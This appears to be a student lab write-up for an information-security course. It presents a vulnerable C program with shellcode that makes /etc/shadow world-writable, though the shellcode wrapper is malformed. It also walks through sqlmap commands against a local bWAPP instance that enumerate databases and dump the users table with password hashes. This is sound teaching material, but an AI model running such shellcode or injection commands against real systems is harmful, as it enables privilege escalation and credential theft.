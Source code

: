 
Lab #1,22110035, Nguyen Gia Huy, Information Security_Nhom03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

1. Idea
`StackFrame` của chương trình 

``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
***Step1***
First we login to the web with username: bee, password: bug
![image](https://github.com/user-attachments/assets/6f445219-db7b-42fe-ba05-df6fd2b57b07)


***Step2***
After that, we choose SQL Injection (get/select) option and click Hack button
![image](https://github.com/user-attachments/assets/68ba1787-ad5d-4cb2-bdb7-ea59a73df331)


***Step3***
We will be redirected to the page http://localhost:8025/sqli_2.php
We collect the cookie of the webpage
![image](https://github.com/user-attachments/assets/24420808-15de-4de0-9a18-28aef6a30bd4)
We can observe that the cookie = qsfi47oc645khe9eimnnr9kcm5; security_level=0


***Step4***
We will start using SQLMap to find the existing databases of the website.
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="qsfi47oc645khe9eimnnr9kcm5; security_level=0"
Explain the command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities. The --dbs option instructs SQLMap to enumerate and display the databases available on the target server. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result:
![image](https://github.com/user-attachments/assets/5e009099-2b49-494e-8524-0ef11f38168d)

We can see that there are 4 available database: bWAPP, information_schema, mysql, performance_schema

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
***Step1***
To view user information, we need to know the information of the tables in each database
So I will try to see the table information in each database, starting with the first bWAPP database
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"
Explain command: This command executes SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, specifically targeting the database bWAPP. The -D bWAPP option specifies that SQLMap should focus on this particular database. The --tables option instructs SQLMap to enumerate and display the tables within the specified database. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result: ![image](https://github.com/user-attachments/assets/15be522e-ed1f-4317-9156-281f87c6a74c)
We can observer that there are 5 table in the bWAPP database. 
***Step2***
Based on the table names, we can easily guess the user information stored in the users table in the bWAPP database
So we will read the contents of the Users table
Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"
Explain command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, focusing specifically on the database bWAPP and the users table. The -D bWAPP option specifies the target database, while the -T users option indicates that SQLMap should operate on the users table. The --dump option instructs SQLMap to extract and display all the data from the specified table. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.
Result: ![image](https://github.com/user-attachments/assets/29db088a-65c2-4383-9c18-cd040a2d820a)
Based on the image above, we can see the user information and hashed passwords

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
